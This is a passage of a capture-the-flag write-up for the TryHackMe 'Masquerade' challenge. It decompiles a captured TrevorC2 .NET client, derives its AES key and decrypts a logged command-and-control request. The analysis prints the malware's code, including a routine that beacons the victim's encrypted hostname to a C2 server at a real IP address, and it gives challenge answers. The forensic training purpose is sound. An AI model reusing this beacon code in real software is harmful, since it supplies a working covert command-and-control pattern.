ZEV0V3lodU00M3F2NGsrekRITU1IelRtTnVTR3FwTmQ2YnRwVjJEcWVTdktKWCtyQzVWSnY3OXowU1FBRURIOW1NR1FJeExYK0xvQW0xcUxaU0hReko3T1RDRTVNVURiVEdSbkNoQitiRkgwM0QzVk1aaUIvaUZzaEI1UWtHdTBpNmtlMGdaOWlzbVFRbHpTdWRpcFhHbUFvNXlCbi92bzZTV1oxZStZUWdscG5OWHFYZDh1Nmd3aHJOcmF2RnBJSVJxdjByQy9oVXcyK0QyV3ZrMXpBNi9RR0JJNlNlVmRYY0hLQ21WaUdRQWJMVjErYnAwZzRzZmZRaGV2bUNkY1lUaktKTGVoTTVMWnRMRWRaVjVueUdVd0YrdDE0N3ZSdWlqZXNYTGVZR3p6Mm1xUnFGSjhIeTZsMDJsK3lQWlpFK2c0ZVM5eGNCVlBIZmpCaEdzVGdNRFVRMjZMbVplWnRELzh2UExRTEczWExRY1VqK3lrbzduT1VjSFlUY2wvaHFUZVRvWWRJdDV2SGZFMk5RL3J0aStZS25ET3dHNFVVYkJNNlV5OHRWdmpPNVJ0M2pxbXVINVY1Y3NlbElPSWFSZkd2dEdXaU01UGtEaXIrN0pUbUhDSHNvUlFRVXdPLzhneVBpMU82STZJVENIRS8rSGVYVGhKeFJVY09wWms3aGRBWUt2NXFPUlVvRC8rNlpTWTNuWW0rYU5tbU5oUldhaVk2a1JrTXYrdHpvNXo0YjNKYmJ1bTlwekx1V0dzSVFZT0J0bFQ1cGtaeTF1QUgxWTNVc042bFZsbWloNVM5MWFtWmZXUll5VUpxcHlxVXhaZFVlaVJ0VG5Ub0Z4RGJBa3h6SFlHZ2lhMlV2cC9iVityRGNUaVdrZ1JsRG5aZnAxZXNObTQ2bktsNUx3RjlxUHlYK290SFpFSmhBL011TTlDcCtxUTFLTDR4UnF4RzBTd2o0OHlsckxEalNHOG8rM0xqOUVwb2dWVldkRlBmc0JNRmVMMWwrQ3U5bVdFa3VoSEtqSTBzcnJFM3QvdW5PQWNsT0xwajhncjhJR3NnY1FVRHcvSVFhZ3RJRUZYWWFIRnFHM051cFZmMTlLUFNOWlN4ZW9QWnIzTDIyOW5HQTBQNzVRdU8zakJCZWY3YUZJRFplTUtRZ0lWZ3AydlRmTDcwQ3BFUFdlL3ZLWHEvbStUN0creW16NWdpMGFOMEkzaWNhWnhHeEF3YWtFalM3QXRjd2EvWWJZTHVqTk9DVjJIS2pxYXFFOVNyWnkrVnJHU0hYS0oyaEJETGF0dWl2OVVQZnBsS2VQejBUTWJsVmlERTgrRGFqSnl0R3A5eTdSVHptS1lDUVF1SUxwY09PUnVGbi9acFlPdmNlRWx2cGRaMVdWMFhqQVRKdXNGa0xqVmd5bnVrNW4rSlRFTkZWbnlpUnVZeDVsYTNzdU14OHRyU09aVWFaNGJrc3dyYVpoQmhHNDd0K084ZFpmTFYwTVFzcG9ZWERsOHRIOGN6N1I1NmxBa2RwdDU5cys1dlB0VUNzRjlaVHR5UUxFWEowcjQ0TDg3bDM1ZFFETUdoWDUvYktXa2JMcDhWbDRLYkl6TjIxalpRSU9YVUllbURaYThobDFnZkFPUzU1WGwzQmo4MkNHd1lJWkVxditXR1BvK0Yxcjc0TVpXU1BQNG1MYXBpVjl4SHc9PQ==
```

Answer: `http://34.174.57.99/`

#### Which encryption key and algorithm does the client use?

If we check the decoded `amdfendrsr.exe` file, we see see that it is a .NET file.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/Masquerade]
└─$ file amdfendrsr.exe 
amdfendrsr.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

This means we can open and decompile it in a tool such as [dnSpy](https://github.com/dnSpy/dnSpy):



The encryption key and algorithm can be found under `Program`-> `Program.exe` -> `TrevorC2Client` -> `CreateAesKey`:

```c
// TrevorC2Client.TrevorC2Client
// Token: 0x06000004 RID: 4 RVA: 0x000020B4 File Offset: 0x000002B4
private static string CreateAesKey()
{
    TrevorC2Client.CreateAesManagedObject(null, null);
    HashAlgorithm hashAlgorithm = new SHA256Managed();
    byte[] bytes = Encoding.UTF8.GetBytes("M4squ3r4d3Th3P4ck3tSt34lthM0d31337");
    return Convert.ToBase64String(hashAlgorithm.ComputeHash(bytes));
}
```

Note that the key is `SHA256Managed()` which means we should use `b5f253f95311e41930daa10fc6ca5823a404df428c45dd5b350fccf36a20e846` to decrypt later on below.



Answer: `M4squ3r4d3Th3P4ck3tSt34lthM0d31337, AES`

#### After determining the client's encryption, decrypt the commands the attacker executed on the victim and submit the flag

How AES is setup we find in `Program`-> `Program.exe` -> `TrevorC2Client` -> `CreateAesManagedObject`:

```c
// TrevorC2Client.TrevorC2Client
// Token: 0x06000003 RID: 3 RVA: 0x00002068 File Offset: 0x00000268
private static AesManaged CreateAesManagedObject(byte[] key = null, byte[] IV = null)
{
    AesManaged aesManaged = new AesManaged
    {
        Mode = CipherMode.CBC,
        Padding = PaddingMode.PKCS7,
        BlockSize = 128,
        KeySize = 256
    };
    if (IV != null)
    {
        aesManaged.IV = IV;
    }
    if (key != null)
    {
        aesManaged.Key = key;
    }
    return aesManaged;
}
```

So `CBC` is the mode and the key size is `256`.

And the communication details we find under `Program`-> `Program.exe` -> `TrevorC2Client` -> `ConnectTrevor`:

```c
// TrevorC2Client.TrevorC2Client
// Token: 0x06000008 RID: 8 RVA: 0x00002198 File Offset: 0x00000398
private static void ConnectTrevor()
{
    for (;;)
    {
        int num = TrevorC2Client.RandomInterval();
        try
        {
            string unencryptedString = string.Format("magic_hostname={0}", TrevorC2Client.computerName);
            string text = TrevorC2Client.EncryptString(Convert.FromBase64String(TrevorC2Client.CreateAesKey()), unencryptedString);
            text = Convert.ToBase64String(Encoding.UTF8.GetBytes(text));
            HttpWebRequest httpWebRequest = (HttpWebRequest)WebRequest.Create("http://34.174.57.99/images?guid=" + text);
            httpWebRequest.CookieContainer = TrevorC2Client.CookieContainer;
            httpWebRequest.Method = "GET";
            httpWebRequest.KeepAlive = false;
            httpWebRequest.UserAgent = "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko";
            httpWebRequest.Headers.Add("Accept-Encoding", "identity");
            httpWebRequest.GetResponse();
        }
        catch (Exception)
        {
            Console.WriteLine(string.Format("[*] Cannot connect to {0}", "http://34.174.57.99"));
            Console.WriteLine(string.Format("[*] Trying again in {0} seconds...", num));
            Thread.Sleep(num * 1000);
            continue;
        }
        break;
    }
}
```

Base64-encoding is actually applied twice. Once more in `EncryptString`:

```c
// TrevorC2Client.TrevorC2Client
// Token: 0x06000005 RID: 5 RVA: 0x000020EC File Offset: 0x000002EC
private static string EncryptString(byte[] key, string unencryptedString)
{
    byte[] bytes = Encoding.UTF8.GetBytes(unencryptedString);
    AesManaged aesManaged = TrevorC2Client.CreateAesManagedObject(key, null);
    byte[] second = aesManaged.CreateEncryptor().TransformFinalBlock(bytes, 0, bytes.Length);
    return Convert.ToBase64String(aesManaged.IV.Concat(second).ToArray<byte>());
}
```

In `DecryptString` we can see that the IV (Initialization Vector) is made up of the first 16 bytes of the encrypted data:

```c
// TrevorC2Client.TrevorC2Client
// Token: 0x06000006 RID: 6 RVA: 0x00002134 File Offset: 0x00000334
private static string DecryptString(byte[] key, string encryptedStringWithIV)
{
    byte[] array = Convert.FromBase64String(encryptedStringWithIV);
    byte[] iv = array.Take(16).ToArray<byte>();
    byte[] bytes = TrevorC2Client.CreateAesManagedObject(key, iv).CreateDecryptor().TransformFinalBlock(array, 16, array.Length - 16);
    return Encoding.UTF8.GetString(bytes).Trim(new char[1]);
}
```

We will use CyberChef as a fast-and-easy decoding of the first HTTP-request we saw in one of the earlier questions, namely

`http://34.174.57.99/images?guid=UVRNZUdTS0ozRzRaUGNlaGhLRUd0aXl2R3Zub2N2YW5UZTh3ZmorMEx1WXBPdEIvL1BSSzZ1RW5oN0EvMTIxRUJ3Z3NQZk5Yb2d0VUYxOTV0MFZ1SUZDZ1cwcnRHYzlCYlFLK1NzTWd1NVE9`



The decoded bytes are:

```text
41331e192289dc6e193dc7a184a106b62caf1af9e872f6a74def307e3fb42ee6293ad07ffcf44aeae12787b03fd76d4407082c3df357a20b54175f79b7456e2050a05b4aed19cf416d02be4ac320bb94
```

Of these the first 16 bytes, i.e. 32 hex-chars, are the IV: `41331e192289dc6e193dc7a184a106b6`.

The rest of the bytes (`2caf1af9e872f6a74def307e3fb42ee6293ad07ffcf44aeae12787b03fd76d4407082c3df357a20b54175f79b7456e2050a05b4aed19cf416d02be4ac320bb94`) should be AES-decrypted.



We were lucky enought to choose the communication with the flag.

Answer: `THM{<REDACTED>}`

---------------------------------------------------------------------------------------

For additional information, please see the references below.

## References

- [.NET Framework - Wikipedia](https://en.wikipedia.org/wiki/.NET_Framework)
- [Advanced Encryption Standard - Wikipedia](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)
- [dnSpy - GitHub](https://github.com/dnSpy/dnSpy)
- [file - Linux manual page](https://man7.org/linux/man-pages/man1/file.1.html)
- [Get-WinEvent - Microsoft Learn](https://learn.microsoft.com/en-us/powershell/module/Microsoft.PowerShell.Diagnostics/Get-WinEvent?view=powershell-5.1)
- [HTTP - Wikipedia](https://en.wikipedia.org/wiki/HTTP)
- [pcap - Wikipedia](https://en.wikipedia.org/wiki/Pcap)
- [PowerShell - Wikipedia](https://en.wikipedia.org/wiki/PowerShell)
- [RC4 - Wikipedia](https://en.wikipedia.org/wiki/RC4)
- [SHA-2 - Wikipedia](https://en.wikipedia.org/wiki/SHA-2)
- [tshark - Manual page - Wireshark](https://www.wireshark.org/docs/man-pages/tshark.html)
- [Wireshark - Documentation](https://gitlab.com/wireshark/wireshark/-/wikis/home)
- [Wireshark - Homepage](https://www.wireshark.org/)
- [Wireshark - Wikipedia](https://en.wikipedia.org/wiki/Wireshark)
